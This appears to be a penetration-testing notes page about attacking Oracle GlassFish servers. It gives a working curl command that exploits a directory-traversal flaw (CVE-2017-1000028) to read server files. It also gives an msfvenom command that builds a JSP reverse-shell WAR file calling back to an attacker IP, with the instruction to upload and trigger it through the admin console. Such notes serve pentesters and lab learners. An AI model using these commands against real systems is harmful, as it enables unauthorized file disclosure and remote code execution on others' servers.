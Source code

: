 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# GlassFish

[Oracle GlassFish](https://www.oracle.com/middleware/technologies/glassfish-server.html) is an open-source application server developed by Oracle and primarily used for deploying and managing Java-based enterprise applications. It runs across multiple operating systems, including Windows, Linux, and macOS, making it cross-platform. By default, GlassFish listens on TCP port `4848` for its administrative interface, while applications are typically served over HTTP (port `8080`) and HTTPS (port `8181`).

## Unauthenticated LFI

Oracle GlassFish Server Open Source Edition `4.1` is affected by a directory traversal vulnerability ([CVE-2017-1000028](https://nvd.nist.gov/vuln/detail/CVE-2017-1000028)) that can be triggered through both authenticated and unauthenticated requests. The flaw arises because the application fails to properly sanitize user-supplied input when processing HTTP GET requests, allowing attackers to craft malicious requests that traverse outside the intended web root directory. Successful exploitation can expose sensitive files on the server and, depending on the environment, may facilitate further compromise ([PoC](https://www.exploit-db.com/exploits/39441)).

{% code overflow="wrap" %}
```bash
 curl --path-as-is -s 'http://glassfish-instance:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini'
```
{% endcode %}

{% hint style="warning" %}
Note that the documentation mentions both `glassfish3` and `glassfishv3` for the top directory. In addition, the [online documentation](https://docs.oracle.com/cd/E26576_01/index.html) exists only for `v3`, however a [PDF file](https://docs.huihoo.com/glassfish/4.0/pdf/release-notes.pdf) is available for `v4`.
{% endhint %}

<figure><img src="../../../.gitbook/assets/glassfish_paths.png" alt=""><figcaption><p><a href="https://docs.oracle.com/cd/E19798-01/821-1751/gjjrl/index.html">https://docs.oracle.com/cd/E19798-01/821-1751/gjjrl/index.html</a></p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/glassfish_default_settings.png" alt=""><figcaption><p><a href="https://docs.oracle.com/cd/E18930_01/html/821-2416/giubb.html">https://docs.oracle.com/cd/E18930_01/html/821-2416/giubb.html</a></p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/glassfish_auth_realms.png" alt=""><figcaption><p><a href="https://docs.oracle.com/cd/E19798-01/821-1751/ggnqj/index.html">https://docs.oracle.com/cd/E19798-01/821-1751/ggnqj/index.html</a></p></figcaption></figure>

## RCE

If access to the administrative dashboard is available (`4848`), RCE can be gain via leveraging a `.war` file upload:

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f war -o shell.war
```
{% endcode %}

Upload and trigger the payload:

<figure><img src="../../../.gitbook/assets/glassfish_war_upload.png" alt=""><figcaption></figcaption></figure>
